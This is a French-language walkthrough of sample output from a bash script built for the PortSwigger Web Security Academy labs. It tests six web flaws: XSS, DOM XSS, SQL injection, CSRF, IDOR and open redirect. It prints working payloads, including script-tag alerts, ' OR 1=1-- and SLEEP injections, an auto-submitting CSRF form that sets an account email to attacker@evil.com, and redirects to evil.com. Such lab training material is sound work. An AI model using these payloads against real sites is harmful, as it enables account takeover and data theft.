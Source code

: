 # MANPAGE

Voici un **exemple exhaustif d’exécution du script** pour les challenges PortSwigger Essential Skills, avec la sortie typique pour chaque fonction, le comportement attendu et les instructions de validation :

---

### Lancement du script

```bash
chmod +x script.sh
./script.sh
```

---

### 1. XSS (Cross-Site Scripting)

```
------------------------------------------------------
[XSS] Analyse, attaque et contrôle
  [+] Payload reflété : https://<your-lab>.web-security-academy.net/?search=%3Cscript%3Ealert(1)%3C%2Fscript%3E
      => Testez dans le navigateur, cherchez une alerte JS.
  [-] Non reflété : https://<your-lab>.web-security-academy.net/?search=%22%3E%3Csvg%2Fonload%3Dalert(1)%3E
  [-] Non reflété : https://<your-lab>.web-security-academy.net/?search=%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E
  [Contrôle] : Si une alerte JS apparaît, la faille XSS est confirmée.
```
**Comportement attendu** :  
- Le script teste plusieurs payloads XSS dans le paramètre `search`.
- Si un payload est reflété, ouvrez le lien dans un navigateur : une alerte JS doit apparaître ([3][6]).

---

### 2. DOM XSS

```
------------------------------------------------------
[DOM XSS] Analyse, attaque et contrôle
  [!] Source location.search détectée.
  [PoC] https://<your-lab>.web-security-academy.net/?search=%3Cimg%20src%3Dx%20onerror%3Dalert('domxss')%3E
  [Contrôle] : Ouvrez ce lien dans un navigateur, si une alerte JS apparaît la faille est confirmée.
```
**Comportement attendu** :  
- Le script détecte une source DOM XSS (`location.search`) et propose un lien PoC.
- Ouvrez le lien dans un navigateur pour valider l’exploitabilité.

---

### 3. SQL Injection (SQLi)

```
------------------------------------------------------
[SQLi] Analyse, attaque et contrôle
  [+] Résultat anormal (possible Boolean-based SQLi) : https://<your-lab>.web-security-academy.net/?category=%27%20OR%201%3D1--
  [-] Pas d'indicateur SQLi évident : https://<your-lab>.web-security-academy.net/?category=%27%20OR%20%27a%27%3D%27a
  [-] Pas d'indicateur SQLi évident : https://<your-lab>.web-security-academy.net/?category=%27%20OR%20SLEEP%285%29--
  [Contrôle] : Si vous obtenez un accès non autorisé ou un délai, la faille SQLi est probable.
```
**Comportement attendu** :  
- Le script injecte des payloads SQLi dans le paramètre `category`.
- Si la réponse change ou s’il y a un délai, la faille est probable ([2]).

---

### 4. CSRF (Cross-Site Request Forgery)

```
------------------------------------------------------
[CSRF] Analyse, attaque et contrôle
  [ALERTE] Aucun token CSRF détecté !
  => Génération d'une PoC à tester dans le navigateur :
<!DOCTYPE html>
<html>
  <body>
    <form action="https://<your-lab>.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com">
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
  [Contrôle] : Si l'action est réalisée sans token, la faille CSRF est confirmée.
```
**Comportement attendu** :  
- Le script détecte l’absence de token CSRF et génère une PoC HTML.
- Ouvrez la PoC dans un navigateur connecté : si l’action se réalise, la faille est confirmée.

---

### 5. IDOR (Insecure Direct Object Reference)

```
------------------------------------------------------
[IDOR] Analyse, attaque et contrôle
  [+] Accès à carlos possible : https://<your-lab>.web-security-academy.net/my-account?id=carlos
  [+] Accès à administrator possible : https://<your-lab>.web-security-academy.net/my-account?id=administrator
  [-] Accès refusé ou page vide : https://<your-lab>.web-security-academy.net/my-account?id=1
  [-] Accès refusé ou page vide : https://<your-lab>.web-security-academy.net/my-account?id=2
  [Contrôle] : Si vous accédez aux données d'un autre utilisateur, la faille IDOR est confirmée.
```
**Comportement attendu** :  
- Le script tente d’accéder à différents comptes via l’ID dans l’URL.
- Si vous voyez les infos d’un autre utilisateur, la faille IDOR est confirmée.

---

### 6. Open Redirect

```
------------------------------------------------------
[Open Redirect] Analyse, attaque et contrôle
  [+] Redirection externe détectée : https://<your-lab>.web-security-academy.net/redirect?url=https%3A%2F%2Fevil.com
  [-] Pas de redirection externe : https://<your-lab>.web-security-academy.net/redirect?url=%2F%5Cevil.com
  [Contrôle] : Si la redirection externe fonctionne, la faille est confirmée.
```
**Comportement attendu** :  
- Le script teste plusieurs payloads dans le paramètre de redirection.
- Si la redirection externe fonctionne (header Location), la faille est confirmée.

---

### 7. Synthèse

```
------------------------------------------------------
[SYNTHÈSE ESSENTIAL SKILLS]
1. Pour chaque type de vulnérabilité, le script propose une analyse, une attaque et un contrôle.
2. Pour XSS/DOM XSS, ouvrez les liens dans un navigateur pour valider l'exploit.
3. Pour CSRF, testez la PoC HTML dans le navigateur connecté.
4. Pour SQLi et IDOR, analysez les réponses pour détecter un comportement anormal.
5. Pour Open Redirect, vérifiez la présence du header Location.
6. Utilisez Burp Suite pour automatiser et approfondir l'analyse.
Documentation PortSwigger : https://portswigger.net/web-security
------------------------------------------------------
```

---
